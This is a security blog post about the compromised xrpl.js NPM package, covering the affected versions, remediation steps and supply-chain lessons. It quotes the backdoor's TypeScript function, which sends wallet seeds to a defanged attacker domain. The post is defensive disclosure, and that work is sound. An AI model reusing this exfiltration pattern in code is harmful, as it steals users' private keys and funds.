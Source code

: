 ```yaml
---
title: 'Backdoored xrpl.js NPM Package Steals Keys (CVE‑2025‑32965)'
date: '2025-04-23'
authors: ['zerodaily']
tags: ['vulnerability', 'exploit', 'fraud', 'financial-sector', 'cyber-attack']
draft: false
summary: "Multiple versions of Ripple's official xrpl.js NPM package were compromised with malicious code designed to steal cryptocurrency private keys, affecting versions 4.2.1-4.2.4 and 2.14.2. Immediate key rotation is recommended."
type: Blog
---
```


Security researchers at Aikido Security discovered that multiple versions of Ripple's official `xrpl.js` NPM package were compromised with malicious code designed to exfiltrate cryptocurrency private keys to an attacker-controlled server.[^1]

The backdoored library, which has over 140 000 weekly downloads, posed a significant security risk to XRP Ledger developers and users relying on the compromised versions.[^1]

## The Compromised Packages

The supply chain attack affected the following versions of the `xrpl.js` library:

- Version 4.2.1
- Version 4.2.2
- Version 4.2.3
- Version 4.2.4
- Version 2.14.2

The malicious packages were first published on April 21, 2025, at 20:53 GMT by a user named "mukulljangid". Notably, these versions did not match the official releases on GitHub, where the latest release was version 4.2.0, immediately raising suspicion.[^1]

## How the Backdoor Works

Aikido Security's threat intelligence system, Aikido Intel, detected suspicious code in the compromised versions of the package. The malicious code was inserted into `src/index.ts` and included a seemingly innocuous function called `checkValidityOfSeed` that secretly exfiltrated private keys.[^1]

```typescript
const validSeeds = new Set<string>([])
export function checkValidityOfSeed(seed: string) {
  if (validSeeds.has(seed)) return
  validSeeds.add(seed)
  fetch("https://0x9c[.]xyz/xc", { method: 'POST', headers: { 'ad-referral': seed, } })
}
```

This backdoor function was strategically placed in critical locations within the codebase, including the Wallet class constructor and various methods that handle key derivation. When users created wallets or imported keys, the malicious code would silently transmit their private keys to the attacker's server via HTTPS requests.[^1]

Researchers found that the attack evolved through multiple iterations, with earlier versions (4.2.1-4.2.2) containing manually modified JavaScript files, while later versions (4.2.3-4.2.4) had the backdoor directly inserted into the TypeScript source code.

## Impact and Remediation

The attack specifically targeted the NPM distribution of the package; the GitHub repository remained unaffected. Users who installed these compromised versions may have had their XRP wallet private keys compromised, potentially allowing attackers to gain unauthorized access to cryptocurrency funds.[^2]

The XRP Ledger Foundation quickly responded by releasing clean versions 4.2.5 and 2.14.3 to address the vulnerability. However, simply updating to a secure version is not sufficient for users who may have already been compromised.[^2]

Users who used any of the affected versions should take the following actions immediately:[^2]

1. **Rotate all cryptographic keys** used with the affected systems
2. **Transfer funds** to secure wallets with newly generated keys
3. **Disable compromised master keys** using the XRP Ledger's key rotation features
4. **Assign new regular key pairs** to affected accounts

## Supply Chain Security Considerations

This incident highlights the continuing risk of software supply chain attacks targeting package managers like NPM. The compromise demonstrates sophisticated techniques where attackers:

1. Released multiple versions with increasingly sophisticated backdoor implementations
2. Used domain names designed to appear non-suspicious (0x9c[.]xyz)
3. Targeted a widely-used cryptocurrency library with high-value assets.

Organizations using NPM packages in their development workflows should implement additional security measures such as:

- Using lockfiles to pin dependencies to verified versions
- Implementing integrity verification for package signatures
- Conducting regular security audits of dependency trees
- Monitoring for unexpected package version updates[^2]

## Final Thoughts

The xrpl.js backdoor incident represents a concerning evolution in supply chain attacks targeting the cryptocurrency sector. This was not an opportunistic attack but a sophisticated operation specifically designed to compromise high-value targets: cryptocurrency wallets holding potentially significant assets.[^1]

The rapid identification and response by the security community and the XRP Ledger Foundation demonstrate the value of independent security monitoring systems and transparent security processes.

What makes this attack particularly noteworthy is that it targeted official package releases rather than relying on typosquatting or dependency confusion techniques seen in previous npm attacks.

The threat actors gained access to publishing credentials for a legitimate package with a large user base, highlighting the critical importance of securing not just code repositories but also package publishing pipelines.[^2]

As software supply chain attacks continue to increase in sophistication, developers working in the cryptocurrency space must implement defense-in-depth strategies that assume compromise at some point in the dependency chain. This means implementing runtime protections, least-privilege principles, and comprehensive monitoring—especially when handling sensitive cryptographic operations.

### Related Articles

- [Windows NTLM Hash Leak CVE-2025-24054 Under Active Exploitation: Patch Now to Prevent Credential Theft](/blog/2025-04-18-windows-ntlm-cve-2025-24054-under-active-exploitation)
- [Oracle Cloud Credentials Leak: CISA Issues Urgent Guidance](/blog/2025-04-18-oracle-cloud-credentials-leak-cisa-guidance)
- [Critical Microsoft Zero-Day Vulnerability CVE-2025-29824: What You Need to Know](/blog/2025-04-08-microsoft-zero-day)

[^1]: [Aikido Security: XRP supply chain attack: Official NPM package infected with crypto stealing backdoor](https://www.aikido.dev/blog/xrp-supplychain-attack-official-npm-package-infected-with-crypto-stealing-backdoor)
[^2]: [GitHub Advisory Database: Compromised xrpl.js versions 4.2.1, 4.2.2, 4.2.3, 4.2.4, and 2.14.2 (GHSA-33qr-m49q-rxfx)](https://github.com/advisories/GHSA-33qr-m49q-rxfx)
